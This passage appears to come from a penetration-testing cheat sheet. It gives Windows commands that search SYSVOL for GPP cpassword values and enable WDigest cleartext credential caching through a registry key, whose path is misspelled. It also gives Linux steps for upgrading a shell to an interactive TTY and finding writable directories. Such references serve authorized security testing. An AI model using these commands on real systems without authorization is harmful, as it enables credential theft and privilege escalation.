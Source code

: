 And extra misc to check:

#### Find GPP Passwords in SYSVOL

`findstr /S cpassword $env:logonserver\sysvol\*.xml`

`findstr /S cpassword %logonserver%\sysvol*.xml (cmd.exe)`

#### &#x20;Run Powershell prompt as a different user, without loading profile to the machine \[replace DOMAIN and USER]

`runas /user:DOMAIN\USER /noprofile powershell.exe`

#### Insert reg key to enable Wdigest on newer versions of Windows

`reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1`



## Linux Exploitation

### Spawing a intereactive TTY linux shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
export PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin
```

Then Ctrl-Z

```
stty raw -echo 
fg
```

> Type reset and hit return.

### Exploiting Directory

#### Find any writable directories

```
find / -type d ( -perm -g+w -or -perm -o+w ) -exec ls -adl {} \;
```

Or use

```
find / -writable -type d 2>/dev/null find / -perm -222 -type d 2>/dev/null find / -perm -o w -type d 2>/dev/null
```

#### Finding only Executable folders

```
find / -perm -o x -type d 2>/dev/null
```
